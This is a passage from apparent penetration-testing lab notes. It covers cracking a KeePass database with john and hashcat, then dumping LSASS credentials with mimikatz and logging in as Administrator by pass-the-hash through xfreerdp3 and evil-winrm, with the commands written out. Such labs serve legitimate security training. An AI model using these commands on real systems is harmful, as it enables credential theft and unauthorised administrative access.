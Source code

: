    ```bash
   $ keepass2john Secret.kdb > hash.txt
   $ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
   $ hashcat -O --user hash.txt -m 13400 /usr/share/wordlists/rockyou.txt.gz [ Alternative ]
   ```
   - When you obtain the password, connect to the database `keepassxc Secret.kdb`, load it in a new database, find the flag in the field of one of the tables.

#### Why It Works
Weaked passwords can easily be cracked with various tools such as john the ripper, hashcat etc.

#### Alternatives
- TO-DO.

#### Resources
- [Windows Credential Dumping Guide: https://www.hacktricks.xyz/windows/credentials](https://www.hacktricks.xyz/windows/credentials)

#### Notes
- Check common locations like C:\Windows and C:\Users for config files.
- Install the keypassx client if not already available.

---

### Lab 5: Dump LSASS Process in Windows
#### Objective
Extract credentials by dumping the LSASS process memory on a Windows machine.

#### Vulnerabilities
- LSASS Exposure: Unprotected LSASS process stores plaintext credentials or hashes.

#### Requirements
Target Windows machine must be accessible with limited privileges.

#### Steps
1. **Setup**
   - Connect to target via rdp.
   ```bash
   xfreerdp3 /u:<USER> /p:'<PASSWORD>' /compression /bpp:16 /v:<WORKSTATION_IP> /wallpaper /themes /window-drag 
/menu-anims /fonts /compression /rfx /rfx-mode:video /w:1024 /h:768 /network:auto /dynamic-resolution /drive:home,$(pwd)/www
   ```
   - Download or copy mimikatz to the target workstation. 
2. **Reconnaissance**
   - Confirm LSASS process is running.
    ```bash
   tasklist | findstr lsass
   ```
3. **Exploitation**
   - Dump LSASS process using Mimikatz.
   ```bash
   mimikatz.exe > "privilege:debug"
   mimikatz.exe > "sekurlsa::logonpasswords"
   ```
   - Connect to the Administrator user with the obtained password hash
   ```bash
   $ xfreerdp3 /u:Administrator /pth:'<OBTAINED_HASH>' /v:<WORKSTATION_IP> +clipboard +drive:kali,/home/kali/Desktop
   $ evil-winrm -i <WORKSTATION_IP> -u Administrator -H <OBTAINED_HASH> [Alternative]
   ```
#### Why It Works
LSASS stores credentials in memory, which Mimikatz can extract it using the debugging privileges.
